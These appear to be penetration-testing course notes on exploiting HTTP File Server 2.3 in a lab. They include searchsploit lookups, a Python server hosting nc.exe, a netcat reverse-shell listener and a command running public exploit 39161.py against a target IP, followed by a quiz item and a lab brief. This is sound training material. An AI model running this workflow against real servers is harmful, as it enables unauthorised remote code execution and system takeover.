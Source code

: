 
- HTTP File Server 
	- Used to share files
	- Facilitated to use an http web server

Navigate to http file server

Search for http file server exploit
```
searchsploit HTTP File Server 2.3
```

Copy exploit to local computer
```
searchsploit -m <exploit.py>
```

Copy netcat to current directory
```
cp /usr/share/windows-resources/binaries/nc.exe
```

Setup python server
```
python -m SimpleHTTPServer 80 
```

Create a listener with netcat
```
nc -nvlp 1234
```

## Quiz


In most cases, public exploit code will need to be modified in accordance with your requirements.

	TRUE
## Lab

A Kali GUI machine and a target machine running a vulnerable HTTP File Server server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target).  

Your task is to fingerprint the application using the tools available on the Kali machine and then exploit the application using the appropriate Metasploit module.

Objective: Exploit the application and retrieve the flag!

Instructions:* Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y. * The IP address of the target machine is mentioned in the file “/root/Desktop/target” * Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1


```
Remote IP: 10.4.27.90
Local IP: 10.10.22.2

HttpFileServer 2.3
```

```
searchsploit Http 2.3 
```

```
python 39161.py 10.4.27.90 80
```
